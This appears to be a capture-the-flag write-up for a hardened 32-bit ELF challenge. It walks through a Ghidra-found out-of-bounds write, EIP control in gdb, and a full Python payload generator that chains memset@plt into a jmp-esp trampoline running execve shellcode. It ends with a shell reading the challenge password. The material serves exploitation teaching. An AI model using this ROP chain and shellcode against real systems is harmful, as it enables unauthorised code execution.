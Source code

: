 # ELFx86 - Hardened binary 1


## Writeup

Let's static analyse the file using ghidra. Here are the relevant parts:

*main function*
```C
if (file != (FILE *)0x0)
{
 	while (read_len = fgets(buf, 20, file), read_len != (char *)0x0)
 	{
		ll1 = atoll(buf);
		fgets(buf, 20, file);
		ll2 = atoll(buf);
		if (ll1 != 0 && ll2 != 0)
		{
			insert((int)ll2,(int)ll1,inserted_buf);
		}
	}
}
```

*insert function*
```C
*(undefined4 *)(ll2 * 4 + inserted_buf) = ll1;
```

*0xdeadbeef* = 3735928559

```sh
gdb-peda$ p $esp
$85 = (void *) 0xff81ae90
gdb-peda$ p $esp - 0xff81ae80
$88 = (void *) 0x10
gdb-peda$ shell echo "3735928559                 1033               aaa" > /tmp/ch21/ch21.txt
gdb-peda$ r /tmp/ch21/ch21.txt
(...)
0xdeadbeef in ?? ()
```

Now that we have found a way to overwrite **EIP** we can craft a ropchain using our file (index beginning at 1033 and address the code we want to execute at each iteration).

```sh
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
```

We see that NX is disabled so we can use a jmp esp trampoline to execute our shellcode.
We'll use ```memset@plt``` to populate some writable memory segment with the opcodes for ```jmp esp``` and store the shellcode in the buffer.

````sh
app-systeme-ch21@challenge03:/tmp/ch21$ ~/ch21 ./payload
$ cat .passwd
cat: .passwd: No such file or directory
$ cd /challenges
sh: 2: cd: can't cd to /challenges
$ cd /challenge
$ ls
app-systeme  programmation
$ cd app-systeme/ch21
$ cat .passwd
O...............o
$
````

Our shellcode :
```python
#!/bin/python3
import sys

count = 1033			# saved eip offset from the read buffer
main_leave = 0x080486be
fgets_plt = 0x80483e4
printf_plt = 0x8048434
fopen_plt = 0x8048424
memset_plt = 0x80483f4	# not randomized with PIE off
pppr = 0x08048736		# pop esi; pop edi; pop ebp; ret
writable = 0x0804a008	# rwx region

with open('payload', 'w') as f:
	sys.stdout = f
	print("%19d%18d " * 22 %
		(
			memset_plt, count,
			pppr, count+1,				# pop next 3 instructions and overwrite $eip with the next memset@plt
			writable, count+2,			# r
			0xe4, count+3,
			0x12, count+4,

			memset_plt, count+5,
			pppr, count+6,
			writable+1, count+7,
			0x000000ff, count+8,
			0x02, count+9,

			writable+2, count+10,		# let's be lazy. it works anyway

			0x90909090, count+11,
			0x90909090, count+12,
			0xd231c931, count+13,
			0x90909090, count+14,
			0x6850c031, count+15,
			0x0066662f, count+16,
			0x6d742f68, count+17,
			0x50e38970, count+18,
			0xb0cc8953, count+19,
			0x9080cd0b, count+20,
			0x9080cd0b, count+21
		)
		)

```

## Resources

[Ret2csu - Inf0sec](https://inf0sec.fr/post.php?id=9)
[Advanced ROP Techniques  - Aneesh Dogra](https://anee.me/advanced-rop-techniques-16fd701909b5)
[gdb-peda - github](https://github.com/longld/peda)